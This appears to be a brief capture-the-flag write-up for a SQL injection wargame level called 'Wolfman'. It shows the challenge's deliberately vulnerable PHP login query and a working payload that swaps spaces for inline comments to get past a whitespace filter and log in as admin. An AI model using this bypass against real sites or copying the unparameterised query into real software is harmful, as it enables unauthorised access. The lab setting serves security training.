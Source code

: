 # **Wolfman**

```shell=
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");   
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
  if($result['id'] == 'admin') solve("wolfman");   
  highlight_file(__FILE__);   
?>
```

Neither `%20` can bypass this space filter, so just use comment to replace the space.

`?pw='or/**/1=1/**/and/**/id='admin'%23`

